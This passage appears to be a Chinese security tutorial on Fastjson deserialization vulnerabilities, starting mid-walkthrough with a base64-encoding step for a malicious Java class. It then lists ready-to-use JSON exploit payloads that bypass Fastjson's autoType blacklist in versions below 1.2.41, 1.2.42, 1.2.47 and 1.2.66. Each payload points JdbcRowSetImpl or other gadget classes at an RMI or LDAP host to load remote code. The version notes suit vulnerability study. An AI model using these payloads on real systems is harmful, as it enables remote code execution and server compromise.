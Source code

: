 编译test.java生成class类文件

    
    
    javac test.java

然后对class类文件进行base64编码，这里使用到py脚本

    
    
    import base64fin = open(r"test.class", "rb")fout = open(r"base64.txt", "w")s = base64.encodestring(fin.read()).replace("\n", "")fout.write(s)fin.close()fout.close()

运行之后就会把test.class文件转换为base64.txt文件，这时候再把base64.txt文件替换到payload中即可在dnslog中回显

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122837.png)image-20210819102057605

## < 1.2.41

第一个Fastjson反序列化漏洞爆出后，阿里在1.2.25版本设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞，因此后面发现的Fastjson反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。

com.sun.rowset.jdbcRowSetlmpl在1.2.25版本被加入了黑名单，fastjson有个判断条件判断类名是否以"L"开头、以";"结尾，是的话就提取出其中的类名在加载进来

那么就可以构造如下exp

    
    
    {               "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",    "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit",    "autoCommit":true}

## < 1.2.42

阿里在发现这个绕过漏洞之后做出了类名如果为`L`开头，;结尾的时候就先去掉`L`和`;`进行黑名单检验的方法，但是没有考虑到双写或多写的情况，也就是说这种方法只能防御一组`L`和`;`，构造exp如下，即双写`L`和`;`

    
    
    {               "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",    "dataSourceName":"rmi://x.x.x.x:9999/exp",    "autoCommit":true}

## < 1.2.47

在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

    
    
    { "a": { "@type": "java.lang.Class",  "val": "com.sun.rowset.JdbcRowSetImpl"},  "b": { "@type": "com.sun.rowset.JdbcRowSetImpl",  "dataSourceName": "rmi://ip:9999/exp",  "autoCommit": true}}

## < 1.2.66

基于黑名单绕过，autoTypeSupport属性为true才能使用，在1.2.25版本之后autoTypeSupport默认为false

    
    
    {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://ip:1389/Calc"}{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://ip:1389/Calc"}{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://ip:1389/Calc"}
    